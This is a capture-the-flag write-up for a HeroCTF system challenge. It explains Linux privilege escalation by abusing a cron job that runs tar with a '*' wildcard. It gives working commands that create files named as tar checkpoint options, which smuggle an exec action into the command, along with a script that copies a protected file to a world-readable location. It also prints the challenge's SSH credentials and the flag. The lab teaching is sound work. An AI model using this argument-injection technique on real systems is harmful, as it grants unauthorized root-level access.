 # PrivesCorp #1: Probabtion

### Category

System

### Description

You're on probabtion at this new firm, PrivesCorp. You have to give your superiors a report on the finanial situation of the company. But a not so kind colleague locked the file... You have to prove yourself, and therefore handle it on your own. Get the content of the file.

Read `/home/bob/locked.txt`

```shell
$ ssh bob@chall0.heroctf.fr -p 5001
password : password123
```

Format : **Hero{flag}**<br>
Author : **Log_s**

### Write up

The **note.txt** file teaches us that a new state of the art backup system as been configured to make a backup of our *entire* home directory every minute.

We can easely imagine what is going on : a cron job is running with the following command : ```tar /var/backups/backup.tar *```

Now how is the use of the **\*** wildcard dangerous ? Tar allows you to set *checkpoints*. There are commands to execute after x files where archived. You can inject checkpoints through the wildcard with specific file names.

First let's create the checkpoint to run after one file was archived : ```touch -- --checkpoint=1```

Next, let's set tar's behaviour when reaching the checkpoints : ```touch -- "--checkpoint-action=exec=sh privesc.sh"```

Finally let's create the script that should be executed : ```echo 'cp /home/bob/locked.txt /tmp/abcd.txt && chmod 777 /tmp/abcd.txt' > privesc.sh```

We could have added ourselfs to the sudoers file, we could have ran a reverse shell as root, but I kept it simple here by copying **locked.txt** to a file we could read.

Now you just have to wait up to 1min that the cronjob archives the home directory in which you put the malicious files ;)

### Flag

```Hero{h0w_l0ng_t1ll_p4yd4y}```